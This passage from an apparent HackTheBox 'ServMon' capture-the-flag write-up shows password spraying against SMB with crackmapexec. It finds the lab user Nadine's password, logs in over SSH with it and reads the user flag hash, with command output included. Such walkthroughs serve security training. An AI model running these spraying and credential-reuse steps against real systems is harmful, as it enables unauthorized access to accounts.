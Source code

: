 ##### password cracking

Let's write the password into password file.

```bash
vim password.txt
vim users.txt
```

And crack the password on two users `Nathan` and `Nadine` `administrator`

```bash
sudo crackmapexec smb 10.10.10.184 -u users -p passwords
```

![[ServMon.htb-07.png]]

```
SMB         10.129.227.77   445    SERVMON          [+] ServMon\nadine:L1k3B1gBut7s@W0rk 

```

we will find the nadine password was `L1k3B1gBut7s@W0rk`

##### SSH shell

we will use this password to ssh to the victim machine:

```bash
ssh nadine@10.129.227.77
L1k3B1gBut7s@W0rk
```

Excellent! we are in and get interactvie SSH shell:

![[ServMon.htb-08.png]]

##### capture flag

```
nadine@SERVMON C:\Users\Nadine>cd Desktop 

nadine@SERVMON C:\Users\Nadine\Desktop>dir 
 Volume in drive C has no label. 
 Volume Serial Number is 20C1-47A1

 Directory of C:\Users\Nadine\Desktop

02/28/2022  07:05 PM    <DIR>          .
02/28/2022  07:05 PM    <DIR>          ..
11/17/2022  06:43 PM                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   6,099,415,040 bytes free

nadine@SERVMON C:\Users\Nadine\Desktop>type user.txt 
ba3cdaf613701350a64e07e1c5b30a80 

```
